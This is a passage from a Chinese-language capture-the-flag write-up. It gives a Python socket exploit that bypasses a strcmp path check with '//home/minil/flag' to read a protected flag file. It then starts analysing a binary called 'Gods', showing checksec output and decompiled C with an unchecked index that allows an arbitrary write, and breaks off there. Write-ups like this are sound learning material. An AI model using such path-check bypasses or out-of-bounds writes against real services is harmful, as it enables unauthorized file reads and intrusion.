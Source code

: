 如果s1**不等于**"/home/minil/flag"，就打开s1对应的文件，发送它的内容给我们

### Solution

直接send符合格式的字符串即可，不过要**把"/home"改成"//home"**，exp如下

```python
import socket
host = 'pwn.archive.xdsec.chall.frankli.site'
port = 10067
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
payload = b'GET //home/minil/flag\r\nUser-Agent: MiniL \r\n\r\n'
s.send(payload)
result = s.recv(1024)
print(result)
```

### Tips

1. strcmp在字符串相等时**返回0!!!!**，有点反直觉...像个弱智一样被卡了半天
2. 要把"User-Agent: MiniL \r\n\r\n"放在后面，因为遇到"\r\n\r\n"会停止接收输入



## Gods

### Challenge

有canary

```shell
-> % checksec gods
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

vuln函数中两处漏洞：

1. 没有对index上限检查，可对v4上任意高地址写

```c
_isoc99_scanf("%hd", &index);
    if ( index <= 1u )
    {
      puts("Damn, I'm angry!");
      exit(0);
    }
    printf("Name: ");
    __isoc99_scanf("%7s", &v5);
    v4[index - 1] = v5;
```
